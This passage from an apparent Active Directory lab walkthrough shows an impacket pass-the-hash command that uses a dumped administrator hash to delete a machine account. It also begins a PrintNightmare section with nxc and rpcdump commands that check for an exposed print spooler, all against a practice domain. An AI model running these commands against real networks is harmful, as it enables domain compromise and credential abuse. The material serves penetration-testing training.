 - And voilà, we got all the north domain ntds.dit information :)
    
- Now clean up by deleting the computer we created with the administrator account hash we just get
```
addcomputer.py -computer-name 'samaccountname$' -delete -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' 'north.sevenkingdoms.local/Administrator'
```
![screenshot](pics/addcomputer_remove.png)


## PrintNightmare

To exploit printnightmare we will first check if the spooler is active on targets

### Check spooler is active

- With ncx
```
nxc smb 192.168.56.10-23 -M spooler
```
![screenshot](pics/nxc_spooler.png)


- With impacket rpcdump

```
impacket-rpcdump @192.168.56.10 | egrep 'MS-RPRN|MS-PAR'
```
![screenshot](pics/rpcdump.png)
